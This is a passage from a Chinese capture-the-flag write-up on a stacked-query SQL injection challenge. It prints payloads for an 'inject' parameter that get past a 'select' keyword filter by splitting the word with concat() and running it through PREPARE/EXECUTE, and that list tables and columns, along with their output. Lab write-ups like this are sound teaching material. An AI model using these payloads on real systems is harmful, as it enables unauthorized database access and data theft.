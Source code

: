 	?inject=-1';set @sql=concat('sele','ct flag from `1919810931114514`');PREPARE sql_query FROM @sql;EXECUTE sql_query;--+

得到flag:

```
array(1) {
  [0]=>
  string(38) "flag{c168d583ed0d4d7196967b28cbd0b5e9}"
}
```

## 另一种解法

利用`alter`修改表结构。

`?inject=-1';show tables;--+`

```
array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}

```

当前用的是`words`表，查看一下他的结构。`?inject=-1';desc words;--+`,有两字段。

```
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```
